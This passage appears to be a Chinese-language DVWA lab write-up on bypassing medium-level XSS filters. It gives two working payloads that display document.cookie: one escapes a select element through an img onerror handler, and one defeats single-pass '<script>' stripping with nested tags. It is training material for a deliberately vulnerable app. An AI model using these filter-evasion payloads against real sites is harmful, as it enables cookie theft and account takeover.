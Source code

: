 可以看到它先判断default是否为空，如果不为空，判断下面判断GET输入进来的变量default是否存在`<script`如果存在就重定向到?default=English
用之前low级别的代码就可以进行绕过

```
</option></select><img src=## onerror=alert(document.cookie)>
```
![在这里插入图片描述](assets/20190526221924845.png)

** Medium_Reflected XSS **
![在这里插入图片描述](assets/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FpeGl4eHg=,size_16,color_FFFFFF,t_70-20190811182401868.png)

分析发现现实判断是否为空，如果不为空再判断其中的内容如果有`<script>`就替换成空复写就可以绕过

```
<sc<script>ript>alert(document.cookie)</script>
```

![在这里插入图片描述](assets/20190526222242350.png)

** Medium_Stored XSS **
